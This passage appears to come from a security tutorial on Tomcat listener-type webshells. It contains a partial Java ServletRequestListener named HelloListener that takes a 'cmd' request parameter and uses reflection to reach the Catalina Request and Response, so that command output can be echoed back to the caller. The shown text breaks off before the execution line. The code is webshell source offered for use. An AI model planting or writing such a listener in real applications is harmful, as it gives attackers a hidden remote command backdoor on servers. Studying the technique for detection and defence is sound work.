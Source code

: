 ![](img/4.png)

​ Get the `Request` property through reflection, get the requested parameters to be used to execute the command, and use its `Response` to echo the result of the command execution.

```java
package listener;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebListener()
public class HelloListener implements ServletRequestListener {

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        RequestFacade request = (RequestFacade) sre.getServletRequest();
        String cmd = request.getParameter("cmd");
        try {
            Class<?> aClass = Class.forName("org.apache.catalina.connector.RequestFacade");
            Field field = aClass.getDeclaredField("request");
            field.setAccessible(true);
            Request request1 = (Request) field.get(request);
            Response response = request1.getResponse();

```